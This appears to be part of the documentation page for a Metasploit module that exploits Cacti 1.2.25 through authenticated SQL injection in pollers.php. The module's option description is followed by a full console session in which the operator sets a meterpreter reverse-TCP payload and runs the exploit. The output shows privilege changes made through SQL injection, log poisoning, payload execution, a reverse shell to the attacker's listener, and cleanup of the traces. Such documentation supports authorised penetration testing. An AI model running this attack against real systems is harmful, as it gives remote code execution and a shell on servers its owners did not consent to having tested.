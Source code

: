 ### TARGETURI
The base URI of Cacti (default `/cacti`).


## Scenarios

### Cacti version 1.2.25 on Docker installation
```
msf6 exploit(multi/http/cacti_pollers_sqli_rce) > set target 0
target => 0
msf6 exploit(multi/http/cacti_pollers_sqli_rce) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/cacti_pollers_sqli_rce) > run rhost=127.0.0.1 rport=8080 lhost=192.168.144.1 username=msfuser password=12345678

[*] Started reverse TCP handler on 192.168.144.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Cacti version
[+] The web server is running Cacti version 1.2.25
[*] Attempting login with user `msfuser` and password `12345678`
[+] Logged in
[*] Checking permissions to access `pollers.php`
[*] Attempting SQLi to check if the target is vulnerable
[+] The target is vulnerable.
[*] Backing up the current log file path and adding a new path (log/cacti520.log) to the `settings` table
[*] Inserting the log file path `log/cacti520.log` to the external links table
[*] Getting the user ID and setting permissions (it might take a few minutes)
[*] Logging again to apply new settings and permissions
[*] Getting the CSRF token to login
[*] Attempting login with user `msfuser` and password `12345678`
[+] Logged in
[*] Poisoning the log
[*] Triggering the payload
[*] Sending stage (3045380 bytes) to 192.168.144.1
[*] Cleaning up log file
[*] Meterpreter session 8 opened (192.168.144.1:4444 -> 192.168.144.1:51181) at 2024-01-29 22:00:19 +0100
[*] Cleaning up external link using SQLi
[*] Cleaning up permissions using SQLi
[*] Cleaning up the log path in `settings` table using SQLi

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 172.25.0.3
OS           : Debian 11.5 (Linux 6.5.11-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
